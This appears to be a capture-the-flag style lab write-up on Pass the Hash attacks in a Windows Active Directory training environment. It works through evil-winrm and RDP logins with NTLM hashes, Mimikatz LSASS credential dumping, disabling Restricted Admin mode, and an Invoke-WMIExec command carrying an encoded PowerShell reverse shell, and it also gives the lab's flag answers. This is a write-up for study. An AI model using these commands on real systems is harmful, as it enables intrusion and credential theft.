


## Pass the Hash

- It is the type of attack where the attacker uses the hash instead of the plain text password.
- PtH attacks exploit the authentication protocol as the hash remains static throughout every session until the password is changed.


### Ways to obtain password hashes

- Dumping the local SAM database from a compromised host.
- Extracting hashes from NTDS database (`ntds.dit`) on a Domain Controller.
- Pulling the hashes from a memory (`lsass.exe`)


## Windows NTLM

- NTLM is an authentication procotol used to verify the user credentials against the NTDS database when an user tries to login to the Active Directory network.
- Nowadays, **Kerberos** has taken over the authentication part replacing NTLM although Microsoft still supports it.
#### IMPORTANT

- With NTLM, passwords stored on the server and domain controller are not "salted," which means that an adversary with a password hash can authenticate a session without knowing the original password. We call this a `Pass the Hash (PtH) Attack`.


## LSASS, NTDS, NTLM Relationship

- **LSASS** is the active memory engine that processes authentication requests; it uses the **NTLM** protocol to verify credentials against the user hashes stored permanently inside the **NTDS** database.


## UAC limits Pass the Hash for local accounts


 - UAC or User Access Control restricts or limits local user's ability to perform remote administration operations. When the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy` is set to 0, only the local user of that system having RID 500 can execute admin related tasks. Setting it to 1 allows the other local admins as well.

---
## Questions and Solutions

- Access the target machine using any Pass-the-Hash tool. Submit the contents of the file located at C:\pth.txt.
	- `G3t_4CCE$$_V1@_PTH`

#### Using `evil-winrm` to login to target machine by Pass the Hash (PtH) method

```bash
$ evil-winrm -i 10.129.204.23 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453

Evil-WinRM shell v4.1

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

Info: Connection successful
```

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
ms01\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> dir
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd C:\
*Evil-WinRM* PS C:\> dir


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        10/4/2022  10:55 AM                inetpub
d-----        2/25/2022  10:20 AM                PerfLogs
d-r---        10/4/2022  10:55 AM                Program Files
d-----        10/4/2022  10:55 AM                Program Files (x86)
d-----       10/25/2022   7:34 AM                tools
d-r---        9/26/2022   9:16 AM                Users
d-----       10/10/2022   7:16 AM                Windows
-a----        9/26/2022   9:32 AM             18 pth.txt


*Evil-WinRM* PS C:\> more pth.txt
{redacted}
```

- Try to connect via RDP using the Administrator hash. What is the name of the registry value that must be set to 0 for PTH over RDP to work? Change the registry key value and connect using the hash with RDP. Submit the name of the registry value name as the answer.
	- **DisableRestrictedAdmin**


Now there is a `Restricted Admin Mode` enabled inside the windows machine which would prevent us from logging in to the remote machine via RDP with administrator credentials. This mode makes sure you cannot use **Pass the Hash(PtH)**. If we try to login via hash method without disabling it, we will get the below message.



Disabling Restricted Access Mode.

```powershell
*Evil-WinRM* PS C:\> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
The operation completed successfully.
```

Retry to login via RDP and administrator creds.

```powershell
$ xfreerdp  /v:10.129.204.23 /u:Administrator /pth:30B3783CE2ABF1AF70F77D0660CF3453
```


- Connect via RDP and use Mimikatz located in c:\tools to extract the hashes presented in the current session. What is the NTLM/RC4 hash of David's account?
	- **c39f2beb3d2ec06a62cb887fb391dee0**


RDP into the target and then enable insecure logons and then copy the `mimikatz.exe` and run the tool by setting the below configurations first.

```cmd
privilege::debug
sekurlsa::logonpasswords
```

#### Dumping LSASS memory

```bash
...(SNIP)...
Authentication Id : 0 ; 326537 (00000000:0004fb89)
Session           : Service from 0
User Name         : david
Domain            : INLANEFREIGHT
Logon Server      : DC01
Logon Time        : 9/27/2026 4:01:07 AM
SID               : S-1-5-21-3325992272-2815718403-617452758-1107
        msv :
         [00000003] Primary
         * Username : david
         * Domain   : INLANEFREIGHT
         * NTLM     : c39f2beb3d2ec06a62cb887fb391dee0
         * SHA1     : 2277c28035275149d01a8de530cc13b74f59edfb
         * DPAPI    : eaa6db50c1544304014d858928d9694f
        tspkg :
        wdigest :
         * Username : david
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : david
         * Domain   : INLANEFREIGHT.HTB
         * Password : (null)
        ssp :
        credman :
...(SNIP)...
```

Copy and save this NTLM hash `c39f2beb3d2ec06a62cb887fb391dee0`.


- Using David's hash, perform a Pass the Hash attack to connect to the shared folder \\DC01\david and read the file david.txt.
	- **D3V1d_Fl5g_is_Her3**


Administrator dosen't have access to the `\\DC01\david` directory.

```cmd
C:\Users\Administrator>dir \\DC01\david
Access is denied.
```

This means we need to perform pass the hash to impersonate ourself as **david**  user.

#### Pass The Hash
- We are are using `mimikatz.exe` and using david's creds to impersonte him and access the shared directory.

```cmd
mimikatz.exe privilege::debug "sekurlsa::pth /user:David /rc4:c39f2beb3d2ec06a62cb887fb391dee0 /domain:inlanefreight.htb /run:cmd.exe" exit
```

A new command prompt will open and we will have privileges of the **david** user. You can now list the contents and read the contents inside the shared directory `\\DC01\david`

```cmd
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>dir \\DC01\david
 Volume in drive \\DC01\david has no label.
 Volume Serial Number is B8B3-0D72

 Directory of \\DC01\david

07/14/2022  04:07 PM    <DIR>          .
07/14/2022  04:07 PM    <DIR>          ..
07/14/2022  04:07 PM                18 david.txt
               1 File(s)             18 bytes
               2 Dir(s)  18,169,540,608 bytes free

C:\Windows\system32>more \\DC01\david\david.txt
{redacted}
```


- Using Julio's hash, perform a Pass the Hash attack to connect to the shared folder \\DC01\julio and read the file julio.txt.
	- **JuL1()_SH@re_fl@g**


From the output of the `mimikatz.exe` while dumping logon passwords from LSASS we got the NTLM hash of **julio**. 

```cmd
...(SNIP)...
Authentication Id : 0 ; 341918 (00000000:0005379e)
Session           : Service from 0
User Name         : julio
Domain            : INLANEFREIGHT
Logon Server      : DC01
Logon Time        : 9/27/2026 6:05:46 AM
SID               : S-1-5-21-3325992272-2815718403-617452758-1106
        msv :
         [00000003] Primary
         * Username : julio
         * Domain   : INLANEFREIGHT
         * NTLM     : 64f12cddaa88057e06a81b54e73b949b
         * SHA1     : cba4e545b7ec918129725154b29f055e4cd5aea8
         * DPAPI    : 634db497baef212b777909a4ccaaf700
        tspkg :
        wdigest :
         * Username : julio
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : julio
         * Domain   : INLANEFREIGHT.HTB
         * Password : (null)
        ssp :
        credman :
...(SNIP)...
```

NTLM hash of **julio** `64f12cddaa88057e06a81b54e73b949b`. Using this hash to perform pass the hash attack like we did previously. We are going to use this to get the privileges of **julio** user by using `mimikatz.exe` and then read the contents from the `julio.txt` from the `\\DC01\julio` directory.

```cmd
mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64f12cddaa88057e06a81b54e73b949b /domain:inlanefreight.htb /run:cmd.exe" exit
```

```cmd
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>dir \\DC01\julio
 Volume in drive \\DC01\julio has no label.
 Volume Serial Number is B8B3-0D72

 Directory of \\DC01\julio

07/14/2022  07:25 AM    <DIR>          .
07/14/2022  07:25 AM    <DIR>          ..
07/14/2022  04:18 PM                17 julio.txt
               1 File(s)             17 bytes
               2 Dir(s)  18,267,377,664 bytes free

C:\Windows\system32>more \\DC01\julio\julio.txt
{redacted}
```

- Using Julio's hash, perform a Pass the Hash attack, launch a PowerShell console and import Invoke-TheHash to create a reverse shell to the machine you are connected via RDP (the target machine, DC01, can only connect to MS01). Use the tool nc.exe located in c:\tools to listen for the reverse shell. Once connected to the DC01, read the flag in C:\julio\flag.txt.
	- **JuL1()_N3w_fl@g**


Started netcat listener inside windows.

```cmd
C:\tools>nc.exe -lnvp 5000
listening on [any] 5000 ...
```

Finding the IP address of `DC01` domain because any other outbound connection trying to connect to `DC01` will be dropped. So we need to send our revereshell payload from the `ms01` machine, which is the one we are currently logged in using RDP.

```cmd
C:\tools>ping dc01

Pinging dc01.inlanefreight.htb [172.16.1.10] with 32 bytes of data:
Reply from 172.16.1.10: bytes=32 time<1ms TTL=128
Reply from 172.16.1.10: bytes=32 time<1ms TTL=128
Reply from 172.16.1.10: bytes=32 time<1ms TTL=128

Ping statistics for 172.16.1.10:
    Packets: Sent = 3, Received = 3, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms
Control-C
^C
```


Using the Invoke-TheHash to estabslish a reverse shell where the attacker would become `julio` and be able read the contents of `julio.txt`. The command to inject would be the **base64 powershell reverse shell** inside the [revershell.com](https://www.revshells.com/) 



Copy and Paste the string inside the below command and execute the below command to establish the reverse shell. `Invoke-WMIExec` authenticates to DC01 using Julio's NTLM hash over WMI and executes the command remotely. The `-Command` value is a Base64-encoded PowerShell reverse shell that, when decoded, opens a TCP connection back to MS01 (`172.16.1.5:8080`) and hands over an interactive shell.

```powershell
Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64f12cddaa88057e06a81b54e73b949b -Command "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA3ADIALgAxADYALgAxAC4ANQAiACwAOAAwADgAMAApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA="
```

After executing the command. Checking the netcat listener.

```cmd
C:\tools>nc.exe -lnvp 8080
listening on [any] 8080 ...
connect to [172.16.1.5] from (UNKNOWN) [172.16.1.10] 64787
whoami
inlanefreight\julio
PS C:\Windows\system32> type C:\julio\flag.txt
{redacted}
```

- Optional: John is a member of Remote Management Users for MS01. Try to connect to MS01 using john's account hash with impacket. What's the result? What happen if you use evil-winrm?. Mark DONE when finish.
	- **DONE**


John's NTLM hash from the `mimikatz.exe` output during **LSASS Dumping**

```cmd
...(SNIP)...
Authentication Id : 0 ; 344473 (00000000:00054199)
Session           : Service from 0
User Name         : john
Domain            : INLANEFREIGHT
Logon Server      : DC01
Logon Time        : 9/27/2026 6:05:47 AM
SID               : S-1-5-21-3325992272-2815718403-617452758-1108
        msv :
         [00000003] Primary
         * Username : john
         * Domain   : INLANEFREIGHT
         * NTLM     : c4b0e1b10c7ce2c4723b4e2407ef81a2
         * SHA1     : 31f8f4dfcb16205363b35055ebe92a75f0a19ce3
         * DPAPI    : 2e54e60846c83d96cf8d9523b5c0df61
        tspkg :
        wdigest :
         * Username : john
         * Domain   : INLANEFREIGHT
         * Password : (null)
        kerberos :
         * Username : john
         * Domain   : INLANEFREIGHT.HTB
         * Password : (null)
        ssp :
        credman :
...(SNIP)...
```

John's NTLM hash `c4b0e1b10c7ce2c4723b4e2407ef81a2`. Using `evil-winrm` to login to `MS01` as john user, by using its hash.

```bash
$ evil-winrm -i 10.129.14.46 -u john -H c4b0e1b10c7ce2c4723b4e2407ef81a2
```

`evil-winrm` succeeds to login as **john** user.